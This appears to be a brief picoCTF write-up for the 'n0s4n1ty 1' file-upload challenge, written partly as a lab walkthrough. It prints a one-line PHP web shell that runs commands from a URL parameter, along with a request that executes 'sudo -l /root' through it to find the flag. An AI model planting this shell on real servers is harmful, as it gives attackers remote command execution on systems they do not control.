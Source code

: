 # n0s4n1ty 1

## How to resolve?

You will find that uploaded file is stored in `/upload` and you can access from address bar.
And this problem site is running on php platform.
So it means that you may run php script.

For example, upload this script.

````php
<?php system($_GET["cmd"]);?>
````

After uloaded, you can kick script via address bar.
Like

````txt
http://standard-pizzas.picoctf.net:55961/upload/hack.php?cmd=sudo%20-l%20/root
````
You will see

````txt
flag.txt
````

In other words?